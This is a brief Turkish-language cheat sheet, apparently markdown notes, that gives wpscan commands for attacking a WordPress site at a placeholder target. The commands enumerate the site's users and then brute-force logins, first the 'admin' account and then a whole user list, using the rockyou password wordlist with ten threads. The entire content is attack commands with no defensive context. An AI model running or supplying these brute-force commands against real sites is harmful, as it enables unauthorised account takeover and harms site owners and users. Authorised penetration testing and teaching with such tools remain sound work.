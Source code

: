 hedef site üzerinde kullanıcı bulma
```bash
wpscan --url http://hedefsite.com -e u
```

Brute Force Şifre Denemesi
```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames admin \
--max-threads 10

```
 Ekstra: Kullanıcı Listesi ile Brute Force

```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames users.txt \
--max-threads 10

```

